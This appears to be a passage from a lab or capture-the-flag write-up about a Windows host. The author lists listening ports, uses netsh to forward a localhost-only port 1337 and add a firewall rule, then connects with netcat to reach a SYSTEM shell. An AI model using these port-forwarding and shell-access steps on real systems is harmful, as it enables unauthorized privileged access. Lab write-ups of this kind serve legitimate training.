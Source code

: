```powershell
  TCP    0.0.0.0:47001          era:0                  LISTENING
  TCP    0.0.0.0:49664          era:0                  LISTENING
  TCP    0.0.0.0:49665          era:0                  LISTENING
  TCP    0.0.0.0:49666          era:0                  LISTENING
  TCP    0.0.0.0:49667          era:0                  LISTENING
  TCP    0.0.0.0:49668          era:0                  LISTENING
  TCP    0.0.0.0:49669          era:0                  LISTENING
  TCP    0.0.0.0:49670          era:0                  LISTENING
  TCP    0.0.0.0:49671          era:0                  LISTENING
  TCP    0.0.0.0:58526          era:0                  LISTENING
  TCP    127.0.0.1:1337         era:0                  LISTENING
  TCP    192.168.190.96:139     era:0                  LISTENING
  TCP    192.168.190.96:3389    192.168.45.241:56762   ESTABLISHED
  TCP    [::]:135               era:0                  LISTENING
  TCP    [::]:445               era:0                  LISTENING
  TCP    [::]:3306              era:0                  LISTENING
  TCP    [::]:3389              era:0                  LISTENING
  TCP    [::]:5985              era:0                  LISTENING
  TCP    [::]:7680              era:0                  LISTENING
  TCP    [::]:47001             era:0                  LISTENING
  TCP    [::]:49664             era:0                  LISTENING
  TCP    [::]:49665             era:0                  LISTENING
  TCP    [::]:49666             era:0                  LISTENING
  TCP    [::]:49667             era:0                  LISTENING
  TCP    [::]:49668             era:0                  LISTENING
  TCP    [::]:49669             era:0                  LISTENING
  TCP    [::]:49670             era:0                  LISTENING
  TCP    [::]:49671             era:0                  LISTENING
  TCP    [::]:58526             era:0                  LISTENING
```

## Port 1337

Localhost port 1337 looks sus. Lets forward the port so we can access it from Kali and scan it with nmap.
```powershell
netsh interface portproxy add v4tov4 listenport=31337 listenaddress=192.168.190.96 connectport=1337 connectaddress=127.0.0.1

netsh advfirewall firewall add rule name="ForwardToService" protocol=TCP dir=in localip=192.168.190.96 localport=31337 action=allow
```

Looks like 1337 is a listening SYSTEM shell :D
```bash
nc -vn 192.168.190.96 31337                                                      
(UNKNOWN) [192.168.190.96] 31337 (?) open
Microsoft Windows [Version 10.0.19042.1706]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

